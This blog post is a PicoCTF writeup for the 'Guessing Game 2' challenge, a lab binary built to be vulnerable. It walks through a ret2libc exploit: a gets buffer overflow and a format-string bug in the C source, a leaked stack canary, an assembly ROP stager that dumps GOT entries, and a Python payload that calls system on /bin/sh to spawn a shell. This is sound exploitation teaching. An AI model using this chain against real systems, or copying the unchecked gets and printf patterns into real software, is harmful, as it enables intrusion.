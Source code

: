 ```yaml
---
layout: post
title: "PicoCTF: Guessing Game 2 - Writeup"
date:   2022-03-12 15:46:00 +0000
categories: ctf binary-exploitation
---
```


# Introduction

This challenge is pretty straightforward and provides a great introduction to the ret2libc method of exploitation.

# Gaining an understanding of the program

The program begins by asking the user to guess a *random* number based on the remainder of the address of `rand` as seen in the code snippet below. When guessed correctly, the program asks for a name and proceeds by printing it to the screen.

```c
#define BUFSIZE 512

long get_random() {
    return rand;
}

int do_stuff() {
    long ans = (get_random() % 4096) + 1;	
    printf("What number would you like to guess?\n");
    char guess[BUFSIZE];
    fgets(guess, BUFSIZE, stdin);
    ...
}

void win() {
    char winner[BUFSIZE];
    printf("New winner!\nName? ");
    gets(winner);
    printf("Congrats: ");
    printf(winner);
    printf("\n\n");
}
```

#### Bug hunting

The program contains two critical vulnerabilities, a buffer overflow abetted by `gets` and a format string vulnerability. Either one of these vulnerabilities could result in code execution, however, running `checksec` on the binary yielded security mitigations employed. 

```bash
➜  Guessing Game 2 checksec vuln
[*] 'Guessing Game 2/vuln'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

As you can see, the binary is hardened with [RELRO](https://www.redhat.com/en/blog/hardening-elf-binaries-using-relocation-read-only-relro) preventing us from leveraging the format string vulnerability to overwrite the Global Offset Table ([GOT](https://en.wikipedia.org/wiki/Global_Offset_Table)). [DEP](https://en.wikipedia.org/wiki/Executable_space_protection), meaning that we cannot use the buffer overflow vulnerability to jump to the stack. Even if the stack was executable we would still be unable to achieve code execution due to the presence of a [stack canary](https://en.wikipedia.org/wiki/Buffer_overflow_protection#Random_canaries). 

To successfully exploit this binary, we need to leverage the format string vulnerability to leak the stack cookie and use it in the buffer-overflow vulnerability to allow code execution via a ROP chain. First things first, we need to *guess* the *random* number.

# Bruteforcing the random number {#brute-forcing}

`(get_random() % 4096) + 1` gives the solutions a range from -4095 to +4097 a total of 8192 solutions however we can narrow this down. Firstly, as the function address is coerced to a signed 32-bit integer we know that this integer will be negative as libc is usually based at a high address. Secondly, the addresses of the libc functions always seem to be 16 byte aligned meaning that they go up in increments of 16, massively reducing the range to 256 possible values.

```python
solutions = range(1, -4095, -16)
```

# Leaking the stack canary {#leaking-stack-canary}

Using gdb([gef](https://gef.readthedocs.io/en/master/)) I broke at main, running the gef canary command to find the current stack canary. I used python to generate a format string based on `"%x " * (512 // 3)` and sent it to the program. Counting the distance from the beginning of the stack to the canary gave me an offset of 135. Using offset 135, we can use the format string `"%135$x"` to reliably leak the stack canary.

```bash
gef➤  canary
[+] The canary of process 78855 is at 0xffffd30b, value is 0x88397800
```

```bash
Congrats: 200 f7fa2600 804877d 1 fffffad1 fffffad1 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 f7dd0078 f2f70100 80489fc 8049fbc ffffd098 804888c 0 0 3e8 1 ffffd0b0 f7fa2000 0 f7d9b4ca ffffd31b ffffd174 f7fa2000 f7d9b4ca 1 ffffd174 ffffd17c ffffd0d0 f7fa2000 80487ff 1 ffffd174 f7fa2000 0 ffffd17c 0 eb338acc a7fbe6dc 0 0 0 ffffd17c 0
```

# Leaking libc through a ROP chain

Armed with the ability to leak the stack canary, we can now focus on getting our shell. I tried to avoid having to leak libc instead, making a syscall to `execve` with a ROP chain but there were not enough useful gadgets. Though using `ROPgadget`, I found some helpful gadgets which allowed me to make a ROP chain to dump GOT functions and write to data, I’ll be calling this the stager for brevity.

```as
# Addresses obtained using IDA

.equ DATA_OFFSET, 0x804A000
.equ GOT_IO_GETS_OFFSET, 0x8049FCC
.equ GOT_IO_PRINTF_OFFSET, 0x8049FC8
.equ GOT_IO_FGETS_OFFSET, 0x8049FD0
.equ GOT_GETEGID_OFFSET, 0x8049FD8

.macro print fmt, addr
    .long 0x08048470    # _printf@plt
    .long 0x0804844e    # add esp, 8 ; pop ebx ; ret
    .long \fmt
    .long \addr
    .long 0x0           # padding
.endm

.macro gets buffer
    .long 0x8048480     # gets@plt
    .long 0x804844e     # add esp, 8; pop ebx; ret
    .long \buffer
    .quad 0x0           # padding
.endm

.global _start

_start:
    gets DATA_OFFSET
    print DATA_OFFSET, GOT_IO_GETS_OFFSET
    print DATA_OFFSET, GOT_IO_PRINTF_OFFSET
    print DATA_OFFSET, GOT_IO_FGETS_OFFSET
    print DATA_OFFSET, GOT_GETEGID_OFFSET
    gets DATA_OFFSET
    .long 0x80487FF     # main (restart app)
```

The stager works by waiting for input from stdin and writing it to a writable section in the binary. We are able to use a hardcoded address as the binary is not a PIE. After input is received the stager uses the data written as the format string argument to `printf` and proceeds to use this format string to dump GOT entries. The stager waits for one last input to write to the writable section and then restarts the app by returning to `main`.

#### Getting the stager running

We now need to overwrite the return address to an address we control. Using gef's `pattern create` command to create a string and pass it to the application we'll be able to obtain the offset to the return address. Using the information gained I was able to make this python function.

```python
def create_rop_chain(stack_cookie: int, stager: BinaryIO) -> bytes:
    exploit =  b'A' * 512           # Padding
    exploit += p32(stack_cookie)    # Stack cookie
    exploit += b'A' * 12            # Offset to EIP
    exploit += stager.read()        # EIP
    return exploit
```

#### Finding the libc version on the server

Now that we are able to run our stager we'll pass it `%.4s` as the first argument for the format string and then recieve the GOT entry for `gets`. The stager will send us a 4 byte string containing the address which can be converted to something useable using `int.from_bytes` in python. Now that we have the addresses we can use a [libc database](https://libc.blukat.me/) to find the libc version running on the server so that we can get the offsets of functions in that libc binary. Using this I found the libc version to be `libc6-i386_2.27-3ubuntu1.4_amd64.so`. Thankfully, the libc database search provides us with offsets to useful functions. For the final input to the stager we can send it `/bin/sh` to write to the data section for us to pass it to `system` and get a shell.

![libc database search](/assets/images/libc_database_search.png)

# Popping a shell

Subtracting the GOT entry to `gets` from the offset of `gets` in the libc binary we can find the base address for libc. Using this we can contruct the final ROP chain and call `system` with the binary path being a pointer to the data section with the `/bin/sh` string we just wrote using the stager.

```python
exploit =  p32(libc + LIBC_SYSTEM_OFFSET)   # system
exploit += p32(libc + LIBC_EXIT_OFFSET)     # exit when routine complete
exploit += p32(DATA_OFFSET)                 # /bin/sh
```

# The exploit

Here is the complete [source code](https://gist.github.com/aidnzz/5631bc65c38318fe74dd23e0390c9633). Using [pwntools](https://docs.pwntools.com/en/stable/) really simplifies exploit development and features some really good logging utilities.

<script id="asciicast-dKo2JK5qNYfD9ln8n8zp4gKvy" src="https://asciinema.org/a/dKo2JK5qNYfD9ln8n8zp4gKvy.js" async data-size="small"></script>
